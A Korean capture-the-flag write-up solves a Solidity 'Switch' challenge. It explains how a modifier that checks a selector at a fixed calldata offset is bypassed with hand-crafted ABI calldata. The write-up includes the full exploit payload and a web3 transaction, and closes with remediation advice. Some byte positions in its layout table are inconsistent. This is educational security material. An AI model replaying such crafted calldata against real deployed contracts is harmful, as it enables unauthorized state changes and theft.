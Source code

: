 Switch Challenge Writeup
문제 개요
목표: Switch 컨트랙트의 switchOn 변수를 true로 만들기
난이도: Medium-Hard
핵심 개념: ABI 인코딩, Calldata 조작, 동적 데이터 타입
컨트랙트 분석
주요 구성 요소
soliditycontract Switch {
    bool public switchOn; // 초기값: false
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()"));
    
    modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }
    
    modifier onlyOff() {
        bytes32[1] memory selector;
        assembly {
            calldatacopy(selector, 68, 4) // calldata 68번째 위치에서 4바이트 읽기
        }
        require(selector[0] == offSelector, "Can only call the turnOffSwitch function");
        _;
    }
    
    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success,) = address(this).call(_data);
        require(success, "call failed :(");
    }
    
    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }
    
    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }
}
함수 분석

turnSwitchOn(): 스위치를 켜는 함수 (onlyThis 보호)
turnSwitchOff(): 스위치를 끄는 함수 (onlyThis 보호)
flipSwitch(): 임의의 데이터로 내부 호출을 수행 (onlyOff 보호)

보안 메커니즘

onlyThis 모디파이어: 컨트랙트 자신만 turnSwitchOn()/turnSwitchOff() 호출 가능
onlyOff 모디파이어: calldata의 68번째 위치에서 turnSwitchOff() 셀렉터를 확인

취약점 발견
핵심 취약점: ABI 인코딩 vs 고정 위치 검증
onlyOff 모디파이어의 치명적 결함:
solidityassembly {
    calldatacopy(selector, 68, 4) // 항상 68번째 위치만 확인
}
하지만 flipSwitch(bytes memory _data)에서 실제 사용되는 데이터는 동적 위치에 저장됩니다.
ABI 인코딩 구조 이해
flipSwitch(bytes memory _data) 호출 시 calldata 구조:
0-3:     함수 셀렉터 (flipSwitch)
4-35:    _data 파라미터의 오프셋
36-67:   (패딩)
68-71:   ← onlyOff가 체크하는 위치
...
offset:  실제 bytes 데이터 시작 위치
offset+32: 데이터 길이
offset+36: 실제 데이터 내용
익스플로잇 개발
공격 아이디어

68번째 위치: turnSwitchOff() 셀렉터 배치 → 모디파이어 우회
동적 위치: turnSwitchOn() 셀렉터 배치 → 실제 실행

함수 셀렉터 계산
javascriptconst turnSwitchOnSelector = web3.utils.keccak256("turnSwitchOn()").slice(0, 10);
// 결과: 0x76227e12

const turnSwitchOffSelector = web3.utils.keccak256("turnSwitchOff()").slice(0, 10);
// 결과: 0x20606e15

const flipSwitchSelector = web3.utils.keccak256("flipSwitch(bytes)").slice(0, 10);
// 결과: 0x30c13ade
악의적인 Calldata 구성
위치    | 데이터                                                           | 설명
--------|----------------------------------------------------------------|------------------
0-3     | 30c13ade                                                       | flipSwitch 셀렉터
4-35    | 0000000000000000000000000000000000000000000000000000000000000060 | 오프셋: 96
36-67   | 0000000000000000000000000000000000000000000000000000000000000000 | 패딩
68-71   | 20606e15                                                       | turnSwitchOff 셀렉터 (모디파이어용)
72-95   | 000000000000000000000000000000000000000000000000000000000000   | 패딩
96-127  | 0000000000000000000000000000000000000000000000000000000000000004 | 데이터 길이: 4
128-131 | 76227e12                                                       | turnSwitchOn 셀렉터
132-159 | 00000000000000000000000000000000000000000000000000000000       | 패딩
최종 Calldata
javascriptconst maliciousData = "0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000";
공격 실행
1단계: 트랜잭션 전송
javascriptawait web3.eth.sendTransaction({
    from: player,
    to: contract.address, 
    data: maliciousData,
    gas: 200000
});
2단계: 결과 확인
javascriptconst result = await contract.switchOn();
console.log(result); // true
공격 성공 원리
실행 흐름

flipSwitch() 호출: 악의적인 calldata로 함수 호출
onlyOff 모디파이어: 68번째 위치에서 turnSwitchOff() 셀렉터 발견 → 통과
address(this).call(_data): 96번째 위치부터 시작하는 turnSwitchOn() 셀렉터 실행
turnSwitchOn() 실행: msg.sender == address(this) 조건 만족 (internal call) → 스위치 ON

핵심 포인트

이중 데이터 배치: 같은 calldata에 두 개의 서로 다른 함수 셀렉터 배치
오프셋 조작: ABI 인코딩의 동적 특성을 이용하여 실제 실행 데이터 위치 조작
모디파이어 우회: 고정 위치 검증의 한계를 악용

교훈 및 보안 권고사항
취약점의 근본 원인

고정 위치 의존성: 동적 데이터에 대해 고정 위치를 검증하는 것은 위험
불완전한 입력 검증: calldata 전체가 아닌 일부만 검증
ABI 인코딩 복잡성: 개발자가 ABI 인코딩의 세부사항을 완전히 이해하지 못함

보안 개선 방안

전체 calldata 해시: 허용된 calldata의 해시값을 미리 저장하고 비교
화이트리스트 접근: 허용된 함수 셀렉터만 미리 정의
동적 검증: calldata를 파싱하여 실제 함수 셀렉터 추출 후 검증

solidity// 개선된 버전 예시
modifier onlyOffImproved(bytes memory _data) {
    bytes4 selector;
    assembly {
        selector := mload(add(_data, 0x20))
    }
    require(selector == offSelector, "Invalid function");
    _;
}
결론
이 문제는 Solidity의 ABI 인코딩 메커니즘과 calldata 구조에 대한 깊은 이해를 요구하는 고난도 문제였습니다.
핵심 학습 포인트:

ABI 인코딩에서 동적 데이터의 처리 방식
고정 위치 검증의 한계
스마트 컨트랙트 보안에서 입력 검증의 중요성

성공적인 해결을 통해 Ethereum 스마트 컨트랙트의 저수준 동작 원리와 보안 취약점에 대한 이해를 크게 향상시킬 수 있었습니다.
